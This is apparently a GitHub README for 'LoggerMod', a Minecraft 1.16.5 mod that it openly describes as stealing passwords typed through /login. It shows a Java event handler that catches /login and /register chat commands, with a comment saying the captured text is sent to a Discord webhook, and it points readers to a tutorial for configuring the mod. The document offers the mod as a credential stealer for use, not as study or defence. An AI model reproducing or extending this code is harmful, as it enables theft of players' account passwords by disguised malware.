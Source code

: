 # 🔌 LoggerMod
This mod on 1.16.5 steals the entered passwords (Entered via /login)


# ⚡ How to configure?
You can easily change the config for yourself  
Tutorial: [Click](https://www.youtube.com/watch?v=RxuuHBnjgj0) (in Russian)

# ❓ How it Works?
```java
    @SubscribeEvent
    public void ChatEvent(ClientChatEvent e) {
        String msg = e.getMessage();
        String[] sentences = e.getMessage().split(" ");
        if ((msg.startsWith("/l") || msg.startsWith("/login") || msg.startsWith("/reg") || msg.startsWith("/register")) && sentences.length > 1) {
            // Sending to your discord server use Webhook
        }
    }

``` 

# 📱 Screenshots
![Screenshot_20220303_200054](https://user-images.githubusercontent.com/100863585/156613993-d4fd0a97-e967-4539-be72-2893f90d70ba.png)
